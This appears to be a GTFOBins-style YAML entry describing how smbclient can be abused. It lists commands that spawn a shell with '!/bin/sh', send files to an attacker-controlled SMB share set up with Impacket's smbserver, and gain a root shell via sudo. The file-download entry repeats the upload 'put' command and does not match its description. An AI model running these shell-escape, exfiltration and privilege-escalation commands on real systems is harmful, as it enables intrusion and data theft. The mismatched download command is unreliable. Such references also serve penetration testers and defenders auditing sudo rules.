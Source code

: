 ```yaml
---
description: A valid SMB/CIFS server must be available.
functions:
  shell:
    - code: |
        smbclient '\\attacker\share'
        !/bin/sh
  file-upload:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  file-download:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  sudo:
    - code: |
        sudo smbclient '\\attacker\share'
        !/bin/sh
---
```

